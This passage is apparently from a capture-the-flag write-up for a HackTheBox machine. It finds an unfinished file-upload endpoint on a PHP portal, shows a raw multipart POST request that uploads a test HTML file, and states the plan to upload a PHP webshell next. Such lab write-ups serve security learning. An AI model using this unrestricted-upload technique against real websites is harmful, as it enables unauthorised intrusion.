 The upload functions still being in development might mean this is vulnerable. I tried clicking on Add, but it did nothing. When inspecting the traffic, we can see it making POST requests to `/classes/users.php?f=upload`.

<figure><img src="../../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

This accepts form-data and also is a PHP-based website (as from X-Powered-By), so let's try to upload a PHP webshell. I took some requests I had from other machines / scripts that also uploaded form-data.

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 268

-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="a.html"
Content-Type: text/html

<!DOCTYPE html><title>Content of a.html.</title>

-----------------------------9051914041544843365972754266--
```

The above request works and it will be uploaded:

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>
